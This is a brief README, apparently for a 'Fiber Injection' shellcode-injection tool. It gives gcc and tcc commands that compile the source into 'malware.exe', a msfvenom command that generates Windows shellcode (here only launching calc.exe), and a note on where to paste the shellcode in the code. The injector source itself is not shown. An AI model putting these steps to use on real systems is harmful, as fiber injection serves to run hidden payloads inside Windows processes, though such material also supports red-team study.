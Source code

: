 # 💉 Fiber Injection

> To compile code use tcc-compiler or gcc:
```shell
# tcc
tcc code.c -o malware.exe -m32

#gcc
gcc code.c -m32 -o malware.exe 
```
---
> To generate shellcode use msfvenom:
```shell
msfvenom -p windows/exec CMD='calc.exe' -f c
```

> And change this line to yours with shellcode:
```c
7    unsigned char shellcode[] = ""; // shellcode here
```
